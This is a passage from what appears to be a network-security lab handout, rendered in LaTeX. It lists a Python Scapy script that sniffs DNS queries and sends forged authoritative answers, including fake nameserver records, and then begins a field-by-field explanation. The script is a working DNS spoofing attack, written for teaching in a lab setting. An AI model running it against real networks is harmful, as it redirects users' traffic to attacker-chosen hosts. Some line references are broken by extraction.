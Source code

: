 \begin{lstlisting}[caption={Sample code: \texttt{dns\_sniff\_spoof.py}}]
#!/usr/bin/env python3
from scapy.all import *
 
def spoof_dns(pkt):
  if (DNS in pkt and 'www.example.net' in pkt[DNS].qd.qname.decode('utf-8')):

    # Swap the source and destination IP address
    IPpkt = IP(dst=pkt[IP].src, src=pkt[IP].dst)

    # Swap the source and destination port number 
    UDPpkt = UDP(dport=pkt[UDP].sport, sport=53)

    # The Answer Section
    Anssec = DNSRR(rrname=pkt[DNS].qd.qname, type='A',               
                 ttl=259200, rdata='10.0.2.5')

    # The Authority Section
    NSsec1 = DNSRR(rrname='example.net', type='NS',
                   ttl=259200, rdata='ns1.example.net')
    NSsec2 = DNSRR(rrname='example.net', type='NS',
                   ttl=259200, rdata='ns2.example.net')

    # The Additional Section
    Addsec1 = DNSRR(rrname='ns1.example.net', type='A', 
                    ttl=259200, rdata='1.2.3.4')
    Addsec2 = DNSRR(rrname='ns2.example.net', type='A',
                    ttl=259200, rdata='5.6.7.8')

    # Construct the DNS packet
    DNSpkt = DNS(id=pkt[DNS].id, qd=pkt[DNS].qd, aa=1, rd=0, qr=1,  (*@\ding{81}@*)
                 qdcount=1, ancount=1, nscount=2, arcount=2,
                 an=Anssec, ns=NSsec1/NSsec2, ar=Addsec1/Addsec2)

    # Construct the entire IP packet and send it out
    spoofpkt = IPpkt/UDPpkt/DNSpkt
    send(spoofpkt)

# Sniff UDP query packets and invoke spoof_dns().                		
f = 'udp and dst port 53'
pkt = sniff(iface='br-43d947d991eb', filter=f, prn=spoof_dns)       (*@\ding{73}@*)    
\end{lstlisting}
 
Please make sure replace the interface name in Line~ with
the one in your system.
Line~ constructs the DNS payload, including DNS header and data. Each field 
of the DNS payload is explained in the following:

